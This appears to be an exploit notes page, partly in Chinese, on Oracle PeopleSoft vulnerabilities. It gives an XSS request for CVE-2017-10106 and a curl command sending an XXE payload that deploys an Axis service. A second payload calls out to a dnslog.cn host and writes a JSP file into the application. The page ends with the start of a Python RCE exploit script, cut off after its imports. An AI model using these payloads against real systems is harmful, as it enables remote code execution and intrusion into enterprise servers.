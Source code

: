 ```http

```

#### [CVE-2017-10106] XSS of PeopleTools 8.54, 8.55
```
POST    /pspc/test?userID=<script>alert(1)</script>&password=<script>alert(2)</script>&languageCode==<script>alert(5)</script>&siteName=<script>alert(3)</script>&CREFName=<script>alert(4)</script>&portalName=<script>alert(6)</script>&command=login HTTP/1.1

```

ref: 
- https://erpscan.io/advisories/erpscan-17-037-multiple-xss-vulnerabilities-testservlet-peoplesoft/

#### 直接部署Service
```bash
curl -i -s -k -X $'POST'     -H $'Host: <ip>:<port>' -H $'Cookie: '     --data-binary $'<?xml version=\"1.0\"?><!DOCTYPE IBRequest [<!ENTITY x SYSTEM \"http://localhost:<port>/pspc/services/AdminService?method=%21--%3E%3Cns1%3Adeployment+xmlns%3D%22http%3A%2F%2Fxml.apache.org%2Faxis%2Fwsdd%2F%22+xmlns%3Ajava%3D%22http%3A%2F%2Fxml.apache.org%2Faxis%2Fwsdd%2Fproviders%2Fjava%22+xmlns%3Ans1%3D%22http%3A%2F%2Fxml.apache.org%2Faxis%2Fwsdd%2F%22%3E%3Cns1%3Aservice+name%3D%22YZWXOUuHhildsVmHwIKdZbDCNmRHznXR%22+provider%3D%22java%3ARPC%22%3E%3Cns1%3Aparameter+name%3D%22className%22+value%3D%22org.apache.axis.client.ServiceFactory%22%2F%3E%3Cns1%3Aparameter+name%3D%22allowedMethods%22+value%3D%22%2A%22%2F%3E%3C%2Fns1%3Aservice%3E%3C%2Fns1%3Adeployment\"> ]><IBRequest><ExternalOperationName>&x;</ExternalOperationName><OperationType/><From><RequestingNode/><Password/><OrigUser/><OrigNode/><OrigProcess/><OrigTimeStamp/></From><To><FinalDestination/><DestinationNode/><SubChannel/></To><ContentSections><ContentSection><NonRepudiation/><MessageVersion/><Data></Data></ContentSection></ContentSections></IBRequest>'     $'http://<ip>:<port>/PSIGW/HttpListeningConnector'
```
其他的class:
```
<?xml version="1.0"?><!DOCTYPE IBRequest [<!ENTITY x SYSTEM "http://333.cjmut0.dnslog.cn:8140/pspc/services/AdminService?method=%21--%3E%3Cns1%3Adeployment+xmlns%3D%22http%3A%2F%2Fxml.apache.org%2Faxis%2Fwsdd%2F%22+xmlns%3Ajava%3D%22http%3A%2F%2Fxml.apache.org%2Faxis%2Fwsdd%2Fproviders%2Fjava%22+xmlns%3Ans1%3D%22http%3A%2F%2Fxml.apache.org%2Faxis%2Fwsdd%2F%22%3E%3Cns1%3Aservice+name%3D%22YZWXOUuHhildsVmHwIKdZbDCNmRHznXR%22+provider%3D%22java%3ARPC%22%3E%3CrequestFlow%3E%3Chandler+type%3D%22RandomLog%22%2F%3E%3C%2FrequestFlow%3E%3Cns1%3Aparameter+name%3D%22className%22+value%3D%22java.util.Random%22%2F%3E%3Cns1%3Aparameter+name%3D%22allowedMethods%22+value%3D%22%2A%22%2F%3E%3C%2Fns1%3Aservice%3E%3Chandler+name%3D%22RandomLog%22+type%3D%22java%3Aorg.apache.axis.handlers.LogHandler%22+%3E%3Cparameter+name%3D%22LogHandler.fileName%22+value%3D%22.%2Fapplications%2Fpeoplesoft%2FPSOL%2Ftest1.jsp%22+%2F%3E%3Cparameter+name%3D%22LogHandler.writeToConsole%22+value%3D%22false%22+%2F%3E%3C%2Fhandler%3E%3C%2Fns1%3Adeployment"> ]><IBRequest><ExternalOperationName>&x;</ExternalOperationName><OperationType/><From><RequestingNode/><Password/><OrigUser/><OrigNode/><OrigProcess/><OrigTimeStamp/></From><To><FinalDestination/><DestinationNode/><SubChannel/></To><ContentSections><ContentSection><NonRepudiation/><MessageVersion/><Data></Data></ContentSection></ContentSections></IBRequest>
```

这里是部署`org.apache.axis.client.ServiceFactory`这个class。默认是`org.apache.pluto.portalImpl.Deploy`。


#### 完整exploit
```py
#!/usr/bin/python3
# Oracle PeopleSoft SYSTEM RCE
# https://www.ambionics.io/blog/oracle-peoplesoft-xxe-to-rce
# cf
# 2017-05-17
# modified by shadowsock5 on 2020/12/10

import requests
import urllib.parse
import re
import string
import random
import sys

```